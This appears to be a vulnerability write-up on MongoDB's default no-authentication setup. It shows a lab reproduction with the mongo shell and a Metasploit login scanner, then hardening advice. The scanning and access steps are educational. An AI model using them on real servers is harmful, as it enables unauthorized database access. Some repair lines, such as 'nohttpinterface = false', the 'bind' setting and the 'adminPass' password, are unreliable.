

# MongoDB Unauthorized Access Vulnerability

## Vulnerability Description

When starting the MongoDB service without adding any parameters, it defaults to having no authentication. The logged in user can perform any operation on the database (high risk operations such as adding, deleting, and modifying) without a password via the default port, and can also remotely access the database.

## Environment Setup

Download the MongoDB image from Docker

```
docker run  -it  -p  27017:27017 mongo
```

## Vulnerability Reproduction

### Execution with CLI

```
┌──(root💀kali)-[~]
└─# mongo 192.168.32.131
MongoDB shell version v5.3.1
connecting to: mongodb://192.168.32.131:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c7ddf3c3-2fbc-4b5a-b9a4-91dfce9703a2") }
MongoDB server version: 5.0.8
WARNING: shell and server versions do not match

> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB

```

### Execution with MSF

```
msf6 > use auxiliary/scanner/mongodb/mongodb_login
msf6 auxiliary(scanner/mongodb/mongodb_login) > set rhosts 192.168.32.131
rhosts => 192.168.32.131
msf6 auxiliary(scanner/mongodb/mongodb_login) > run

[*] 192.168.32.131:27017 - Scanning IP: 192.168.32.131
[+] 192.168.32.131:27017 - Mongo server 192.168.32.131 doesn't use authentication
[*] 192.168.32.131:27017 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Repair Suggestions

**(1). Create a New Admin Account to Enable MongoDB Authorization** Create a new terminal [parameters can be omitted by default, only add if there are custom parameters, similarly below] `mongod --port 27017 --dbpath /data/db1`

In another terminal, run the following commands:

```
  use admin

  db.createUser(
    {
      user: "adminUser",
      pwd: "adminPass",
      roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
    }
  )
```



The administrator has been created successfully and now has the administrator user `adminUser` with the password `adminPass`

**(2). Local Access**

```
bind 127.0.0.1
```

**(3). Modify the Default Port** Change the default MongoDB port (default: TCP 27017) to another port

**(4). Disable the HTTP and REST Ports** MongoDB has its own HTTP service and supports REST interfaces. These interfaces are turned off by default in version 2.6 and later. MongoDB defaults to listening for web services on the default port, and remote management through the web is generally not needed, so it is recommended to disable it. Modify the configuration file or choose the `-nohttpinterface` parameter when starting `nohttpinterface = false`

**(5). Enable Log Audit Functionality** The audit function can be used to record all related operations on the database by the user. These records can allow the system administrator to analyze what happened to the database at what time when necessary.

**(6). Enable Auth Authentication**

```
/etc/mongodb.conf　　
auth = true
```